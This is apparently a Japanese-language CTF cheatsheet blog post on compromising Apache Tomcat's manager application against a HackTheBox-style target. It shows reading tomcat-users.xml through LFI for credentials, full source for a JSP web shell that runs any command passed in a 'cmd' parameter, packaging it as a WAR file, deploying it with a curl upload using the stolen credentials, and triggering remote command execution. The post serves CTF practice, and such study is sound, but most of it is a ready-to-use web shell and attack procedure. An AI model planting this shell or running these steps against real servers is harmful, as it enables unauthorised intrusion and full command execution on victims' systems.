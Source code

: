 ```yaml
---
layout: post
title: "tomcat"
published : true
tags: CTF Common cheatsheet tomcat
---
```

## Tomcatマネージャーアプリケーションの発見
tcp/8080でオープンしていることが多い

## 資格情報の取得
LFIなどを利用して"tomcat-users.xml"を探す。ファイルパスは一例
```sh
/usr/share/tomcat9/etc/tomcat-users.xml

(SNIP...)
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
(SNIP...)
```
## web shellによるRCE
### Create file. [index.jsp]
```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
    String s = null;
    try {
      Process p = Runtime.getRuntime().exec(cmd,null,null);
      BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
      while((s = sI.readLine()) != null) {
        output += s+"</br>";
      }
    }  catch(IOException e) {   e.printStackTrace();}
   }
%>
<pre><%=output %></pre>
```
   
### warの生成
```sh
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```
## Upload
```sh
curl --upload-file webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/webshell"
```

### RCE
```sh
http://megahosting.htb:8080/webshell/index.jsp?cmd=id
```